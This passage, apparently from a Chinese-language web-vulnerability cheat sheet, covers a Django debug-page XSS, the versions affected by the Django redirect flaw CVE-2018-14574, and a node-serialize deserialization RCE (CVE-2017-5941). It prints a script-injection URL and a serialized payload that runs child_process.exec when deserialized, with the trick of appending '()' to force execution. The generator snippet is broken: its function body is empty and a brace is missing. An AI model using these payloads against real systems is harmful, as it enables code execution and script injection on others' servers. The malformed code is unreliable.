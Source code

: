 ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrgzp4RG4S3Q2Aw8qomGFia0jfNtNxeicLbftl3ictRAkpkafwpiam1gKn9cib2o3zibZjiaplj2vW0FqNvg/640?wx_fmt=png)

#### 3. Django debug page XSS 漏洞

```
直接访问`目标/create_user/?username=<script>alert('haha')</script>`
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrgzp4RG4S3Q2Aw8qomGFia0ndwiaR7QadMhtsOic5ObhAXaFnybz12D7ibwJdRhpdQoG3Btuy0Hqc7KQ/640?wx_fmt=png)  
再次访问

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrgzp4RG4S3Q2Aw8qomGFia0nJJ7TByjVLqHIXJ0ZZT4E7uUJPLk5rJDXGMyZ8icTwGkgs4Fz8kxn7g/640?wx_fmt=png)

#### 4. Django url 跳转漏洞 (CVE-2018-14574)

```
影响版本
>1.11.0<= version <1.11.15   
>2.0.0<= version <2.0.8
```

![](https://mmbiz.qpic.cn/mmbiz_gif/BwqHlJ29vcrgzp4RG4S3Q2Aw8qomGFia0O6gPWycnf5jTUcicx71Cxln3IrEVKA5jto8bUae7W5Lmib4aGwKI8PWQ/640?wx_fmt=gif)

十. node.js
----------

#### 1. 反序列化 RCE 漏洞

```
CVE-2017-5941  
poc：（***执行 ls /***）
    ```
    var y = {
    rce : function(){
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```
    生成结果如下
    ```
        Serialized:
        {"rce":"_$$ND_FUNC$$_function(){\n         require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }"}
    ```
```

注意，最后一个双引号前要补一个`()`  
最终结果如下

```
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

#### 2. 目录穿越漏洞

